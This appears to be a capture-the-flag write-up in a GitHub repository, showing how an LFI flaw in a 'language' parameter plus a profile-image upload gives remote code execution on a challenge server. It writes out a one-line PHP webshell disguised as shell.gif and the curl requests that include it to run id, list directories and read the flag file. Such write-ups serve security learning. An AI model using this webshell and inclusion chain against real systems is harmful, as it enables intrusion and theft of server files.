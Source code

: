 # LFI and Webshell Exploit Write-Up (Target: 94.237.58.135:51980)
This repository documents the exploitation of a Local File Inclusion (LFI) vulnerability combined with a file upload on the web server at `94.237.58.135:51980` to achieve remote code execution (RCE) and locate a flag in a Capture The Flag (CTF) challenge.

## Overview
The target web application at `http://94.237.58.135:51980/index.php` has an LFI vulnerability in the language parameter, allowing inclusion of local PHP files. By uploading a malicious PHP script (`shell.gif`) to `./profile_images/`, I executed commands and found the flag in `/2f40d853e2d4768d87da1c81772bae0a.txt`.

## Prerequisites
A Linux machine with curl.

A malicious PHP script (shell.gif).

Network access to the target (94.237.58.135:51980).

## Steps
### Step 1: Identify Local File Inclusion (LFI)

I noticed the `index.php` page used a language parameter to include files (`index.php?language=en.php`). I tested for LFI by attempting to include files from the server’s filesystem.

```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif"
```
The server included files from `./profile_images/`, suggesting an LFI vulnerability. I realized I could upload a PHP script to this directory and include it.

### Step 2: Create and Upload the Malicious PHP Script

I created a PHP webshell to execute system commands:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.gif
```
This created a clean PHP webshell that runs commands via the `cmd` parameter.

I accessed the /settings.php page, which had a profile image upload feature.

I uploaded `shell.gif` to `./profile_images/` through the web interface, placing it at `http://94.237.58.135:51980/profile_images/shell.gif`

![image](https://github.com/user-attachments/assets/53fa8646-73f1-4d9d-9931-75c58fcb158e)

### Step 3: Verify Remote Code Execution

I tested the LFI vulnerability by including `shell.gif` and running the `id` command.
```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/092f7162-58ec-42e9-95f1-289a4db74c1e)

This confirmed RCE as the `www-data` user, proving my webshell worked.

### Step 4: Explore the File System

I listed the root directory to find the flag’s location.

```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=ls%20/"
```
![image](https://github.com/user-attachments/assets/be40b260-a7fd-47e2-ab37-cc3503b15c45)

### Step 5: Locate the Flag
```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt"
```
I got the flag and completed the challenge!
